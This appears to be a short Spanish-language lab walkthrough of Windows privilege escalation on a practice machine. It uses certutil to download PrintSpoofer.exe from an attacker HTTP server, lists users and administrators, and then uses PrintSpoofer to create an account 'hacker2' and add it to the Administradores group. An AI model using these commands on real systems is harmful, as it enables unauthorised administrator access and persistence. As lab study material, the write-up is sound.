 ## Descargamos el archivo en la maquina

```bash


certutil -urlcache -split -f "http://192.168.56.103:8000/PrintSpoofer.exe" "PrintSpoofer.exe" 

```

## Listar los usuarios 
```bash
PS C:\temp> net users

Cuentas de usuario de \\PATATA-MAGICA

-------------------------------------------------------------------------------
Administrador            DefaultAccount           Hacker                   
Invitado                 patata                   
WDAGUtilityAccount       www-data                 
Se ha completado el comando correctamente.


```
## Listar miembros del grupo "Administradores"
```bash
./PrintSpoofer.exe -i -c "cmd /c net localgroup Administradores"


PS C:\temp> net localgroup Administradores
Nombre de alias      Administradores
Comentario           Los administradores tienen acceso completo y sin restricciones al equipo o dominio

Miembros

-------------------------------------------------------------------------------
Administrador
Hacker
Se ha completado el comando correctamente.

PS C:\temp> 
```

## Vamos a crear un usuarios 

```bash 
./PrintSpoofer.exe -i -c "cmd /c net user hacker2 Password123 /add"

```

## Agregamos al usuario al grupo de Administradores con la herramienta PrintSpoofer.exe
```bash
./PrintSpoofer.exe -i -c "cmd /c net localgroup Administradores hacker2 /add"
```

